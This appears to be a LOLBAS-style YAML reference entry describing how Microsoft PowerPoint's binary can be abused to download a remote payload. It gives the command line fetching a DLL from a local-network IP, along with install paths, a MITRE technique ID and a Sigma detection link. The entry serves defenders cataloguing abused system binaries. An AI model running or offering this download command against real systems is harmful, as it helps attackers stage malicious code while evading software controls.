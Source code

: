 ```yaml
---
Name: Powerpnt.exe
Description: Microsoft Office binary.
Author: 'Reegun J (OCBC Bank)'
Created: 2019-07-19
Commands:
  - Command: Powerpnt.exe "http://192.168.1.10/TeamsAddinLoader.dll"
    Description: Downloads payload from remote server
    Usecase: It will download a remote payload and place it in the cache folder
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft Office 16\ClientX86\Root\Office16\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 16\ClientX64\Root\Office16\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office16\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office16\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office 15\ClientX86\Root\Office15\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 15\ClientX64\Root\Office15\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office15\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office15\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office 14\ClientX86\Root\Office14\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office 14\ClientX64\Root\Office14\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office14\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office14\Powerpnt.exe
  - Path: C:\Program Files (x86)\Microsoft Office\Office12\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
  - Path: C:\Program Files\Microsoft Office\Office12\Powerpnt.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/c04bef2fbbe8beff6c7620d5d7ea6872dbe7acba/rules/windows/process_creation/proc_creation_win_lolbin_office.yml
  - IOC: Suspicious Office application Internet/network traffic
Resources:
  - Link: https://twitter.com/reegun21/status/1150032506504151040
  - Link: https://medium.com/@reegun/unsanitized-file-validation-leads-to-malicious-payload-download-via-office-binaries-202d02db7191
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
---
```

